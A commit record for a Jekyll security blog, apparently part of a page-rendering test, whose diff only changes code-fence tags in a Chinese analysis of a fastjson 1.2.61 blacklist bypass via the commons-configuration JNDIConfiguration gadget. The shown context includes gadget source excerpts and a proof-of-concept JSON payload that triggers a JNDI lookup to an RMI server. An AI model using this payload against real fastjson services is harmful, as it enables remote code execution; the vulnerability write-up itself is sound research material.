

Before and after one commit to Curz0n/curz0n.github.io, a Jekyll site: the page built from _posts/2019-09-24-fastjson_1_2_61_blacklist_bypass.md, in a window 1280 px wide and 1400 px high, scrolled down 600 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; nearby versions of some CDN libraries; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
java syntax highlight

````diff
--- a/_posts/2019-09-24-fastjson_1_2_61_blacklist_bypass.md
+++ b/_posts/2019-09-24-fastjson_1_2_61_blacklist_bypass.md
@@ -23,7 +23,7 @@ fastjson：  `version <= 1.2.61`，目前官方还没发布补丁，通杀所有
 
 造成漏洞的根因是fastjson反序列化JSON字符串时，会自动调用构造方法和get/setXXX方法，下面看一段fastjson反序列化JSON串的测试代码，先定义User类：
 
-```Java
+```java
 package com.blacklist.test;
 
 public class User {
@@ -71,7 +71,7 @@ public class User {
 
 使用fastjson反序列化一段JSON字符串成User对象：
 
-```Java
+```java
 package com.blacklist.test;
 
 import com.alibaba.fastjson.JSON;
@@ -106,7 +106,7 @@ getTest方法被自动调用！
 可以看见fastjson反序列化字符串时会依次自动调用对象的构造方法，setXXX方法，getXXX方法。注意，被反序列化的字符串中没有address和getTest方法的相关的要素，但是fastjson依然自动调用了get方法。如果这些get/setXXX方法里面存在JNDI Reference注入漏洞（*这部分知识详情可参考笔者发布的上一篇文章[《CVE-2019-14540远程代码执行漏洞分析&复现》](https://curz0n.github.io/2019/09/20/cve-2019-14540/)*），那就可以借助fastjson的特性执行我们指定的任意代码，造成RCE。
 从公布的poc可知这次利用的gadget是[commons-configuration](https://github.com/apache/commons-configuration/blob/master/src/main/java/org/apache/commons/configuration2/JNDIConfiguration.java)组件的`org.apache.commons.configuration2.JNDIConfiguration.setPrefix(final String prefix)`方法，源码如下：
 
-```Java
+```java
     public void setPrefix(final String prefix)
     {
         this.prefix = prefix;
@@ -118,7 +118,7 @@ getTest方法被自动调用！
 
 setPrefix方法就是初始化成员变量，并使baseContext等于null，逻辑很简单，看不出任何问题。那我们就先看一下JNDIConfiguration的构造方法，无参构造方法调用带1个参数的构造方法，然后new一个InitialContext对象，调用带有2个参数的构造方法，代码如下所示：
 
-```Java
+```java
     public JNDIConfiguration(final String prefix) throws NamingException
     {
         this(new InitialContext(), prefix);
@@ -127,7 +127,7 @@ setPrefix方法就是初始化成员变量，并使baseContext等于null，逻
 
 带两个参数的构造方法详情如下，把InitialContext对象赋值给成员变量context：
 
-```Java
+```java
     public JNDIConfiguration(final Context context, final String prefix)
     {
         this.context = context; //new InitialContext()
@@ -139,7 +139,7 @@ setPrefix方法就是初始化成员变量，并使baseContext等于null，逻
 
 接着分析代码，看哪里调用了context变量，最后定位到getBaseContext方法，代码详情如下：
 
-```Java
+```java
     public Context getBaseContext() throws NamingException
     {
         if (baseContext == null)
@@ -189,7 +189,7 @@ Configuration2_Gadget
 
 根据前面的漏洞分析，构造基于rmi协议的poc如下：
 
-```
+```java
 String poc = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://127.0.0.1:1099/Exploit-SERVER\"}";
 ```
 
````
